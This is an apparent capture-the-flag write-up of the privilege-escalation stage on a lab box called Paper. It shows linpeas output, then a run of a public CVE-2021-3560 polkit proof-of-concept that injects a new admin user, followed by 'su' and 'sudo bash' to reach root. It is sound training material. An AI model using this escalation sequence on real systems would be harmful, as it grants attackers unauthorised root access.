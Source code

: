 ![PeasInAction](https://i.imgur.com/VoxcMrX.png)
The results from linpeas is massive, but one thing stood out.
```
╔══════════╣ Sudo version                             
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version 
Sudo version 1.8.29                      
Vulnerable to CVE-2021-3560
```
The sudo version is vulnerable.

# Privesc
As it turns out it's vulnerable to the CVE-2021-3560 which is a vulneralbility that allows the attacker to create a new admin. A brief summary is written ![here](https://access.redhat.com/security/cve/cve-2021-3560). But as a treat, the creator of the box has created a privesc POC that we can use. This definetly is the right way

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh
The flow of the code is shown under, i won't comment too much on it as it explains well what its doing. The only problem i had was using the correct password. Therefore i added the -p flag to declare my own password. Bear in mind, the code says that you might need to run this exploit a couple of times, so don't worry.
```bash
[dwight@paper shm]$ ./esc.sh -p=test123  
[!] Username set as : secnigma           
[!] No Custom Timing specified.           
[!] Timing will be detected Automatically  
[!] Force flag not set.                
[!] Vulnerability checking is ENABLED!   
[!] Starting Vulnerability Checks...       
[!] Checking distribution...                                     
[!] Detected Linux distribution as "centos"                           
[!] Checking if Accountsservice and Gnome-Control-Center is installed 
[+] Accounts service and Gnome-Control-Center Installation Found!!  
[!] Checking if polkit version is vulnerable                 
[+] Polkit version appears to be vulnerable!!                  
[!] Starting exploit...                                       
[!] Inserting Username secnigma...                                         
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required       
[+] Inserted Username secnigma  with UID 1005!               
[!] Inserting password hash...                            
[!] It looks like the password insertion was succesful!          
[!] Try to login as the injected user using su - secnigma              
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper shm]$ su - secnigma
Password: 
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma:
[root@paper secnigma]# whoami
root
```
We are root.

